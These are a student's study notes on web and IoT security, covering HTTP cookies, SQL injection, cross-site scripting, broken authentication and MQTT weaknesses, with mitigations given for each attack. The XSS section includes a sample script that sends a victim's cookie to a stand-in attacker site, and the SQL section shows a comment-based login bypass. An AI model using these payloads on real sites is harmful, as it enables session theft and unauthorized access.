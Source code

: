 # Web and IoT Security

## Security in the web

### Basics of a Web Application

A web application is made on the client/server model: they send each other messages in a *request-response messaging pattern*. We remember that all client-server protocol operate in the *Application Layer*.

**HTTP** stands for Hyper Text Transfer Protocol and it is a *stateless, application-level protocol* for exchanging information between systems. It is connectionless, media independent and stateless.

```http
HTTP/1.0 200 OK
Date: Sun, 21 Apr 1996 02:20:42 GMT
Server: Google
Connection: keep-alive
Content-Type: text/html
Set-Cookie: ...
Content-Length: 2543
<html>...</html>
```

*Up here you can see HTTP version, status code, headers, cookies and the body*

We can add a **state** to HTTP thanks to **Cookies**: cookies are small piece of data sent together with the request to remember information (ie. a shopping cart) or record user's browser activity. 

Cookies are usually used for **authentication** to know whether the user is logged in or not. However security vulnerabilities might allow cookies' data to be read by a hacker wich than can gain access to user data or the website. They also are a **privacy concern** because of tracking cookies.

Because cookies are exchanged in clear you should use https.

### Secure a Web Application

Creating a secure Web application is not an easy task because many security flaws can happen at many levels (db, sevrer, app, network). Every layer must be examined.

Example of vulnerabilities are:

- Application layer
  
  - SQL Injection
  
  - Cross-Site-Scripting
  
  - CSFR, Broken Auth, Unvalidated Input

- Server Layer
  
  - DoS
  
  - OS Explitation

- Network Layer
  
  - MITM
  
  - DNS Attack
  
  - Packet-Sniffing

- User Layer
  
  - Phishing
  
  - Key Logging
  
  - Malware

A web application should be able to grant: **Authentication, Authorization, Confidentiality, Integrity, Non-Repudiation**.

Goals of **Web Application Security** (a branch of Information Security) is to secure web and mobile apps and safen browsing the web

### SQL Injection

A SQL injection is  a code injection technique used to attack data-drive applications. It consist in inserting into a non-sanitized field SQL statements which will be executed.

```sql
SELECT * FROM Users
WHERE username = 'admin';-- AND password = 'pass123'
```

*In the example above the input field is ``'admin';--`` and the password requirement in the SQL query is ignored as a comment returning the view of an admin*.

Other types of SQL injection use wildcards, `... OR 1=1` always true statements. Basically a SQL injection is present when **dynamic queries** are built.

> Case Study: CardSystem (in June 2005) was a credit card payment processing company. A SQL injection exposed 43M credit cards.

**Mitigations:**

- Input sanitization

- Principle of The Least Priviledge

### Cross-Site Scripting Attacks (XSS)

Cross-site scripting (XSS) is a security vulnerability were attackers are able to inject client-side scripts into a user visited website. 

```html
http://vulnerable.com/welcome.php?name=
<script>
window.open ("http://badsite.com/collect.php?cookie= "+document.cookie)
</script>
```

*The idea is to forward the cookie of the user to the attacker site so that it can exploit it (reflected attack)*

Another way of doing XSS is through forms, loading malicious code on the server and (*stored attack*).

With XSS the hacker can impersonate the victim.

**Mitigations:** 

- Filter input parameters (better to use positive filtering)

### Other Attacks

**Unvalidated Input**

```html
<form action="page.asp" method="post">
    <input type="hidden" name="price" value="20.00">
    <input type="submit">
</form>
```

*A user could easily change the value client side and than send the request*

Always validate **server side**!

**Broken Authentication**

Common combination of usernames and passwords are broken.

Causes may be insecure storage, weak algorithm, faulty session management or passwords recovery.

Mitigations are to disallow weak passwords, use HTTPS and MFA, salt and has passwords

**Session Management**

Session information is equally important to protect. Poor management can leed to CSFR (Cross-Site Request Forgery), spoofing and more. 

MItigation consist in implementing strict timeouts and ensure unique and renewed Session IDs.

### Access Control in Web Application

> Case Study: The Equifax Breach
> 
> It was a **command injection attack** where hackers could execute arbitrary commands in Apache Struts. Patches were available **but not applied**.

*Security best practices dictate that this user have as little privilege as possible 
on the server itself, since security vulnerabilities in web applications and web 
servers are so commonly exploited.*

### Conclusion

It is a good idea to use automated soltions for analysis and enforcement of security policies (ie. tools, firewalls, Cloudflare).

**The OWASP Top 10** 

[OWASP Top 10:2021](https://owasp.org/Top10/)

![](/home/samu/Documents/Markdown/images/ComputerAndNetworkSecurity/OWASP.png)

## IoT Security

### Basics of IoT Applications

They usually use a **publish-subscribe** communication. It is a many-to-many communication model. Parties doesn't need to know each other and act at the same time. Synchronization is not needed.

![](/home/samu/.config/marktext/images/2022-12-13-23-59-23-image.png)

*Subjects are publishers, subscribers, a broker and a Notification service*

A more advanced model uses **topics** so that subscribers listen to "categories". Topics can be organized by **hierarchy**.

The **Event Notification System** can be centralized or distributed.

### MQTT

MQTT stands for Message Queue Telemetry Transport. It follows the publisher/subscriber pattern, has hierarchy, simple packets and runs over TCP (*not encrypted by default*)

It is designed to minimise network bandwith, run on small resources and be sort of reliable.

By default all data are in clear; however encryption is possible using **TLS**. The side effect is a significant network overhead. Additional security measures can added.

**Authentication** is possible through the `CONNECT` packet.

Security flaws rounds down to:

- Brute-force Attacks (no limit on number of attempts)

- Abuse of Wildcards in topic subscriptions (possibly system packets)
